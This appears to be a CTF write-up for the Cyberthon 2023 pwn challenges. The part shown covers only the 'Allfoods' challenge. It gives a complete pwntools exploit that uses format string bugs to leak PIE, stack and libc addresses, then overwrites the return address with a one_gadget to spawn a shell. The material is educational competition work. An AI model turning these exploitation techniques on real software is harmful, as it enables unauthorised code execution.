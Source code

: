 ```yaml
---
title: Cyberthon 2023
date: 2023-05-11
excerpt: Cyberthon 2023 - Allfoods, Flagmin, Passgen, Tune of Apocalypse, Wordpocalypse
category: Writeups
tags:
  - pwn
---
```


Writeups for Cyberthon 2023 Pwn challenges

# Allfoods

This challenge is a simple format string read and write. In this case, full
RELRO is enabled so we can't overwrite the GOT. We can leak a stack address and
use it to calculate the address of RIP.

```py
from pwn import *

exe = ELF("./allfoods_patched")
libc = ELF("./libc.so.6")

context.binary = exe

def conn():
    if args.LOCAL:
        p = process([exe.path])
        if args.GDB:
            gdb.attach(p)
            pause()
    else:
        p = remote("chals.f.cyberthon23.ctf.sg", 43030)

    return p


def main():
    p = conn()

    # good luck pwning :)
    # 47 is pie, 45 is stack leak
    p.sendline(b"%47$p,%45$p")
    p.recvuntil(b"Here's your: ")
    pie = int(p.recvuntil(b",", drop=True), 16) - exe.sym.main
    print(hex(pie))
    exe.address = pie

    leak = int(p.recvline().strip(), 16)
    rip = leak - 0xf0

    p.sendline(b"%9$saaaa" + p64(exe.got.printf))
    p.recvuntil(b"Here's your: ")
    libc_base = u64(p.recvuntil(b"aaaa", drop=True).ljust(8, b'\0')) - libc.sym.printf
    print(hex(libc_base))
    libc.address = libc_base

    payload = fmtstr_payload(8, { rip: libc_base + 0xe3b01 })
    p.sendline(payload)

    p.interactive()

```